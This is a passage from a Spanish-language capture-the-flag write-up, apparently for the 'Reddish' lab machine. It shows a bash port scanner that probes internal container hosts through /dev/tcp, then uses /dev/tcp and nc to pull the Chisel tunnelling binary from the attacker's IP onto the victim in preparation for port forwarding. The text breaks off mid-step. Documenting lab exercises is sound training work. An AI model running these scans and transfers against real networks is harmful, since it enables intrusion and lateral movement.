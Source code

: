 - <span style="color:red">nodo rojo</span> → atacante
- <span style="color:yellow">nodo amarillo</span> → Pwned
- <span style="color:green">nodo verde</span> → hostname
- <span style="color:white">nodo blanco</span> → host descubiertos

A través de un script en `bash` se procede a enumerar los puertos abiertos en los hosts correspondientes al segmento `172.18.X.X/16`:

```bash
##!/bin/bash

hosts=("172.18.0.1" "172.19.0.1" "172.19.0.2" "172.19.0.3")

for host in "${hosts[@]}"; do
  echo -e "\n[+] Scanning ports on $host\n"
  for port in $(seq 1 10000); do
    timeout 1 bash -c "echo '' > /dev/tcp/$host/$port" 2> /dev/null && echo -e "\t[+] Port $port - OPEN" &
  done; wait
done
```

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327182842.png)

Para enumerar los puertos descubiertos se van a traer a la máquina atacante, para lo cual se va a realizar un reenvío de puertos (port forwarding), tarea que se llevará a cabo mediante la herramienta `Chisel`. Para ello, es necesario transferir el binario de esta herramienta a la máquina víctima.

### Transfer file

Utilizando [Release v1.9.1 · jpillora/chisel · GitHub](https://github.com/jpillora/chisel/releases/tag/v1.9.1)

Se va a transferir chisel al contenedor a través de `nc`

```bash
##Maquina victima - receptor <IPEmisor>
cat > chisel < /dev/tcp/<10.10.14.12>/444

##Maquina atacante - emisor
nc -nlvp 444 < chisel

##Comprobar integridad con md5sum
```

### Port Forwarding - `Chisel`

Trayéndonos los puertos:

- `172.19.0.2` → `6379`
- `172.19.0.3` → `80`

A través de:
